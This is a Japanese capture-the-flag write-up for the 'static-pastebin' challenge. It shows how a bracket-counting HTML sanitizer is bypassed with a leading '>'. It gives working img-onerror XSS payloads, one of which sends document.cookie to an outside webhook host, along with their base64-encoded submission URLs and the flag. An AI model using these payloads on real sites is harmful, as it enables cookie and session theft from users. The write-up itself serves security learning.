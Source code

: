 # static-pastebin

```txt
I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it [here](url)

Site: (url)
```

## 概要

クローラーに提出するページ
![here](./img/static-pastebin_submit.png)

自分で試すページ
![site](./img/static-pastebin.png)

クローラーに提出するページとテキスト入力するページ。  
`hoge`と入力して`create`を押すと`/paste/#aG9nZQ==`が開かれる。base64だ。  
まぁ、クローラーに提出するのでXSSだろう。

`<s>sss</s>`と入力すると`sss`と表示され、  
`<script>alert()</script>`と入力すると`alert()`と表示された。  
HTMLタグが消去されているようだ。

## 解

`/paste/#aG9nZQ==`の時に読み込んでいる`script.js`に出力してる処理があった。  

```js
(snip)
for (let i = 0; i < input.length; i++) {
    const current = input.charAt(i);
    if (current == '<') {
        brackets ++;
    }
    if (brackets == 0) {
        result += current;
    }
    if (current == '>') {
        brackets --;
    }
}
(snip)
```

`<`でインクリメントして、`>`でデクリメント。0なときだけ出力される。  
ということは、`><s>`のようにすればhtmlが入力できる。

```html
><img src="x" onerror="document.location='[url]'">
```

を入力するとURLにリダイレクトされる。

base64して、クローラーに以下を提出するとurlにアクセスしてくる。

```txt
[url]/paste/#PjxpbWcgc3JjPSJ4IiBvbmVycm9yPSJkb2N1bWVudC5sb2NhdGlvbj1bdXJsXSI+
```

次はCookieを盗む。

```html
><img src="/" onerror="document.location='[url]?' + document.cookie">
```

base64エンコードして以下のようなURLで提出。

```txt
[url]/paste/#PjxpbWcgc3JjPSIvIiBvbmVycm9yPSJkb2N1bWVudC5sb2NhdGlvbj0naHR0cHM6Ly93ZWJob29rLnNpdGUvMDIzNTJlNDAtMDM3Ny00ZmE3LWIwMjctZDRhMmY2N2E4YzkxLz8nICsgZG9jdW1lbnQuY29va2llIj4=
```

クローラーが`[url]?flag=flag%7B54n1t1z4t10n_k1nd4_h4rd%7D`にアクセスしてくる。

```txt
flag{54n1t1z4t10n_k1nd4_h4rd}
```

